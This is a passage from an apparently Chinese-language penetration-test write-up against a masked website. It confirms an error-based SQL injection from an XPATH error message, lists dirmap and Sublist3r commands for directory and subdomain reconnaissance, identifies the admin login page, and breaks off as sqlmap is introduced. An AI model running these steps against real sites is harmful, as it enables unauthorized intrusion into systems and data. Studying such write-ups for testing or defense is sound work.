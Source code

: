 回显数据库：

```
Invalid query: XPATH syntax error: ':lbwzbm'
```

证明存在注入，而且未发现过滤

**02**

Dirmap 目录扫描  

  

Dirmap.py 扫描网站目录，寻找管理页面入口，未发现

```
python3 dirmap.py -i http://xx.xx.xx/ -lcf
```

**03**

Sublist3r 域名扫描  

  

Sublist3r.py 扫描网站域名，寻找管理页面入口，未发现

```
python2 Sublist3r.py -d xx.xx.xx -o 12.txt
```

结果

```
www.xx.xx.xx
cms.xx.xx.xx
cpanel.xx.xx.xx
cpcalendars.xx.xx.xx
cpcontacts.xx.xx.xx
library.xx.xx.xx
mail.xx.xx.xx
record.xx.xx.xx
webdisk.xx.xx.xx
webmail.xx.xx.xx
```

推断、试验后：cms.xx.xx.xx 为管理页面

输入 http:// cms.xx.xx.xx 跳转到

https://yy.yy.yy.yy /yy/login.php

打开后登录页面

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJc6WzLZhyVduebpXhVodZP33z44X9bQqIoWJfzluXteGsER3FjuwlHcQ/640?wx_fmt=png)

**04**

sqlmap 注入  

上文网站注入点已经通过手动找到，如果通过手动注入不现实，而且不一定能成功，所以这里用注入神器 sqlmap 跑起来。
